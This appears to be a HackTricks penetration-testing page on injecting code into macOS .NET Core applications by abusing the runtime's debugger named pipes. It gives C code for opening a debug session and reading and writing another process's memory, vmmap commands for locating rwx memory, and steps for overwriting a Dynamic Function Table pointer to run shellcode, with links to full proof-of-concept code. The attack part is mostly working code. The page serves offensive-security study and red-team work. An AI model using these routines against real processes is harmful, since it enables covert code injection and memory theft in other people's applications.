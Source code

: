 # macOS .Net Applications Injection

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## .NET Core Debugging <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Stablish a debugging session** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) is responsible for handling debugger to debugee **communication**.\
It creates a 2 of names pipes per .Net process in [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) by calling [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (one will end in **`-in`** and the other in **`-out`** and the rest of the name will be the same).

So, if you go to the users **`$TMPDIR`** you will be able to find **debugging fifos** you could use to debug .Net applications:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The function [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) will handle the communication from a debugger.

The first thing a debugger is required to do is to **create a new debugging session**. This is done by **sending a message via the `out` pipe** beginning with a `MessageHeader` struct, which we can grab from the .NET source:

```c
struct MessageHeader
{
    MessageType   m_eType;        // Type of message this is
    DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
    DWORD         m_dwId;         // Message ID assigned by the sender of this message
    DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
    DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
    DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
                                            // never read)
        union {
            struct {
                DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
                DWORD         m_dwMinorVersion;
            } VersionInfo;
          ...
        } TypeSpecificData;

    BYTE                    m_sMustBeZero[8];
}
```

In the case of a new session request, this struct is populated as follows:

```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```

Once constructed, we **send this over to the target** using the `write` syscall:

```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```

Following our header, we need to send over a `sessionRequestData` struct, which contains a GUID to identify our session:

```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```

Upon sending over our session request, we **read from the `out` pipe a header** that will indicate **if** our request to establish whether a debugger session has been **successful** or not:

```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```

### Read Memory

With a debugging sessions stablished it's possible to **read memory** using the message type [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). To read some memory the main code needed would be:

```c
bool readMemory(void *addr, int len, unsigned char **output) {

    *output = (unsigned char *)malloc(len);
    if (*output == NULL) {
        return false;
    }

    sSendHeader.m_dwId++; // We increment this for each request
    sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
    sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
    sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
    sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
    sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
    sSendHeader.m_cbDataBlock = 0;

    // Write the header
    if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Read the response header
    if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Make sure that memory could be read before we attempt to read further
    if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
        return false;
    }

    memset(*output, 0, len);
    
    // Read the memory from the debugee
    if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
        return false;
    }

    return true;
}
```

The proof of concept (POC) code found [here](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Write memory

```c
bool writeMemory(void *addr, int len, unsigned char *input) {

  sSendHeader.m_dwId++; // We increment this for each request
  sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
  sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
  sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
  sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
  sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
  sSendHeader.m_cbDataBlock = len;

  // Write the header
  if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Write the data
  if (write(wr, input, len) < 0) {
      return false;
  }

  // Read the response header
  if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Ensure our memory write was successful
  if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
      return false;
  }

  return true;

}
```

The POC code used to do this can be found [here](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### .NET Core Code execution <a href="#net-core-code-execution" id="net-core-code-execution"></a>

The first thing is to identify for example a memory region with **`rwx`** running to save the shellcode to run. This can be easily done with:

```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```

Then in order to trigger the execution it would be needed to know some place where a function pointer is stored to overwrite it. It's possible to overwrite a pointer within the **Dynamic Function Table (DFT)**, which is used by the .NET Core runtime to provide helper functions for JIT compilation. A list of supported function pointers can be found within [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

In x64 versions this is straightforward using the mimikatz-esque **signature hunting** technique to search through **`libcorclr.dll`** for a reference to the symbol **`_hlpDynamicFuncTable`**, which we can dereference:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

All that is left to do is to find an address from which to start our signature search. To do this, we leverage another exposed debugger function, **`MT_GetDCB`**. This returns a number of useful bits of information on the target process, but for our case, we are interested in a field returned containing the **address of a helper function**, **`m_helperRemoteStartAddr`**. Using this address, we know just **where `libcorclr.dll` is located** within the target process memory and we can start our search for the DFT.

Knowing this address it's possible to overwrite the function pointer with our shellcodes one.

The full POC code used to inject into PowerShell can be found [here](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## References

* This technique was taken from [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
